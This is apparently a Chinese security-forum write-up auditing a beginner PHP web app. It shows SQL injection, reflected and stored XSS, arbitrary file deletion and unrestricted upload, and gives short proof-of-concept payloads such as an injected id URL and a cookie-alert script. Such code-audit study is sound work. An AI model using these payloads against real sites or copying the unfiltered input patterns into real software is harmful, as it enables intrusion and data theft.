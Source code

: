 0x0 起因
------

群里的老哥发了套代码说适合小白练练手，对于我这个纯小白来说当然要冲了。  
emm，的确挺适合小白的，漏洞真多，所以下面就简单举个例子。  
下载地址:<https://wwe.lanzoui.com/iShKJqualmj> 密码:9d1b

0x1 SQL注入
---------

### 0x11 代码审计

/view\_package.php

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-5e672ba77c64e5af8bfb4378ef2e458b2ef28963.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-5e672ba77c64e5af8bfb4378ef2e458b2ef28963.png)

可以看到`id`直接带入数据库执行了

### 0x12 复现

POC:

```php
http://192.168.10.248/?page=view_package&id=c4ca4238a0b923820dcc509a6f75849b%27%20AND%205829=5829--%20aaa
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-b30c8003ea44e2cf23342a0b7094f65d27cfc2ee.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-b30c8003ea44e2cf23342a0b7094f65d27cfc2ee.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-ce1de3447172325a0745a956aa752fbf2beb23ee.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-ce1de3447172325a0745a956aa752fbf2beb23ee.png)

0x2 XSS
-------

### 0x21 反射型代码审计

/admin/index.php

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-76aeacdd1cdfa921c339697892b8617fe2fa1e0e.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-76aeacdd1cdfa921c339697892b8617fe2fa1e0e.png)

接收到`page`参数后只替换了下`/`和`_`就直接返回了

### 0x22 反射型复现

POC:

```php
'-prompt(1)-'
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6aa52a563a22e441c44062775d6905cd22e323a3.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6aa52a563a22e441c44062775d6905cd22e323a3.png)

### 0x23 留言板存储型代码审计

/classes/Master.php

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-694509a65160884a6cdd029c7cff8dbd88044acd.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-694509a65160884a6cdd029c7cff8dbd88044acd.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-11d48484e05d0ebee18997fe31dd4cfdeab6bd46.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-11d48484e05d0ebee18997fe31dd4cfdeab6bd46.png)

留言数据`date`没有实例化或者过滤直接存到数据库。

/admin/inquiries/index.php

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-b0195ce6d0ec473184bf312082ca4a240e5f7b79.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-b0195ce6d0ec473184bf312082ca4a240e5f7b79.png)

从数据库取出来后直接输出

### 0x24 留言板存储型复现

POC:

```php
<script>alert(document.cookie)</script>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-1aaa32d541101b247e45063a5ef181fb95f43c7b.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-1aaa32d541101b247e45063a5ef181fb95f43c7b.png)  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-bad3997ea57f863b572da9cb8c36e0a9e09eabcf.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-bad3997ea57f863b572da9cb8c36e0a9e09eabcf.png)

0x3 文件操作
--------

### 0x31 任意文件删除代码审计

/classes/Master.php

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-e60b1b15f2e52cc8f1f3b7505ac0db15a54c44d9.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-e60b1b15f2e52cc8f1f3b7505ac0db15a54c44d9.png)

直接使用`unlink`函数删除参数`path`

### 0x32 任意文件删除复现

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-b74fda69ce3bbe9e5b2df3507a84cc41a0a16b0f.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-b74fda69ce3bbe9e5b2df3507a84cc41a0a16b0f.png)

返回success即成功

### 0x33 任意文件上传代码审计

/classes/Users.php

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6ddf709bdba8546008770ddc6c4335b74369be88.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6ddf709bdba8546008770ddc6c4335b74369be88.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-e4f3c1d98da2936e6342cdba49e58b09a776ef9e.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-e4f3c1d98da2936e6342cdba49e58b09a776ef9e.png)

未做任何限制，可以直接上传任意文件

### 0x34 任意文件上传复现

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-a47fbb4be648882ca7cab8f4c9b9f0ed78164f61.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-a47fbb4be648882ca7cab8f4c9b9f0ed78164f61.png)